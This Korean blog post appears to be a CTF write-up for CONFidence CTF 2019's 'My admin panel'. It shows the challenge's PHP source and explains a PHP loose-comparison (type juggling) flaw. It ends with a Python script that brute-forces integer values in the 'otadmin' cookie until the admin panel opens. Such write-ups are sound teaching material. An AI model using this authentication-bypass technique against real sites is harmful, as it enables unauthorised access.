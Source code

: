 ```yaml
---
layout: post
title: ! "[CONFidence CTF 2019] My admin panel"
categories: [CTF]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - ctf
  - write-up
---
```


Teaser CONFidence CTF 2019의 `My admin panel` 문제이다.
[Link](https://gameserver.zajebistyc.tf/admin/)
![](/assets/posts/ctf/CONFidence/myadminpanel.png)

```php
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();

```

코드를 보면 otadmin 쿠키가 존재하지 않으면 "Not authenticated."가 뜬다.
디렉토리에서 바로 login.php 파일에 접근했을 때 뜨는 메시지와 동일하다.

otadmin 쿠키가 정규식 [0-9A-Z\"]와 일치하지 않거나 session_data가 NULL이면 "COOKIE TAMPERING xD IM A SECURITY EXPERT"가 뜬다.

![](/assets/posts/ctf/CONFidence/myadminpanel_burp.png)
![](/assets/posts/ctf/CONFidence/myadminpanel_hint.png)

hash 값과 strtoupper(MD5($cfg_pass))가 일치하지 않으면 위와 같이 힌트를 주는데
이 부분에서 loose comparison을 사용한다.
PHP는 loose comparision으로 정수와 문자열을 비교할 때 정수를 문자열의 첫 번째 숫자와 비교한다.
EX) 123 !== "123", 123 == "123aaa"

![](/assets/posts/ctf/CONFidence/loose_comparision.png)

`0006464640640064000646464640006400640640646400` 에서 앞부분 세 자리를 Bruteforce 하면 될 것 같다.


```py
import requests
  
url = "https://gameserver.zajebistyc.tf/admin/login.php"
s = requests.Session()

for i in range(500):
    r = s.get(url, cookies={'otadmin':'{"hash": '+str(i)+'}'})
    if "GIVE" not in r.text:
        print(r.text)
        print("HASH : "+str(i))
        break

```

![](/assets/posts/ctf/CONFidence/myadminpanel_flag.png)

플래그 !! 
